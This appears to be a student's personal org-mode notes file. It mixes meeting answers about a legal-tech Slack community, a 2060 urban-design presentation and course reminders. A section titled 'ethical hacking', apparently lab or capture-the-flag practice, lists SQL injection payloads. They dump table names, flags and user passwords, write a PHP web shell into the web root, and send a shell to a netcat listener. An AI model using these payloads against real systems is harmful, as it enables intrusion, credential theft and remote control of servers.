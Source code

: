 #+AUTHOR: CALIN CAPITANU
#+TITLE: Quick Notes

* Hailey meeting 12/08/2020
** What do you think Hailey can achieve, do and use the Slack channel for - how does it differ from the custom made app?
Only through slack I think we can do at most the following:
+ Gather a medium sized community
+ Get 5-10% of that community to actively interact with eachother and be interested in our posts there
+ Organize LegalTech events
It is mostly different in terms of control over how users interact with the platform. I think that the initial target of this is to gather a 
community, thus for the short-term, there is nothing more that a dedicated app would offer, but needs might arise for specific implementations.
** What do you envision your role in relation to the Hailey Slack channel to be? What do you want to do in the Slack channel?
I would like to see myself as a moderator for the tech channel along with Leandro.
** How does your role change in the light of the pivot?
   It all depends on what are the next decisions, haha. If the decision is that we are building smaller tools to help the legal-tech community, then 
   I'd guess my role would still be as a developer, which would be great. Otherwise, I think my role would be more of a Newspaper Reporter to the
tech channel, maybe Moderator as above mentioned.
** What are the new roles and necessities you see emerging from the pivot?
Definetely crowd controllers and community builders. People that know how people work, if that makes sense. People that know how to 
keep people talking and engaged in conversation. We are trying basically to become a group of influencers, which we need reputation for,
thus people with such knowledge would be great (vloggers, bloggers).
** What new commitments or changes to your excisiting ones are you ready to make due to the pivot?
I would like to be involved as much as I was before, I think it is the right amount of work I can do at the moment, school starts in 2 weeks, or one 
which is scary, but I might be able to do more at times, possible less at other times (exams of course). But around 8 to 10 hours a week is usually something
I can do for 
* ethical hacking
** databases
%' UNION (SELECT 1,table_name,3,4  FROM information_schema.tables ) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** columns
%' UNION (SELECT 1,column_name,3,4  FROM information_schema.columns WHERE TABLE_NAME = 'users') UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** flag
%' UNION (SELECT 1,flag,3,4  FROM flags) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%
** passwords
%' UNION (SELECT usID, usPseudo, usPasse , usAvecPhoto  FROM users) UNION SELECT 1,2,3,4 FROM users WHERE 1 LIKE '%



%' union select 1, '<?php system($_GET["cmd"]); ?>',2,3 into outfile '/var/www/html/php/cmd.php' #

%' union select 1, '<?php system('/bin/sh | nc 10.0.2.15 5566'); ?>',2,3 into outfile '/var/www/html/php/cmd1.php' #
* Prezentare Vlad
In order to better represent our vision, we chose Sergels Torg as a reference point for the project. 
We found that Sergels Torg is a quite dynamic place, and in our vision, the life in 2060 will be less stressful,
moreover, even more calm. So in order to achieve that, we redesigned Sergels Torg as
a big amphitheater and we also redesigned the pavement. In terms of agriculture and urban farming,
we changed the high buildings into farming factories, and in order to take advantage of the place itself,
we designed an extra facade that brings more space for urban farming to take place in the very center of the 
city. As mentioned before, the main commercial buildings will be changed by 2060 into stores with local 
production. 
* Probability and Statistics
Review problems 6.1-6.6
Exercise session 6
* Amir English
1: detailed notes of some things
13: To appeal to people
15: Claim






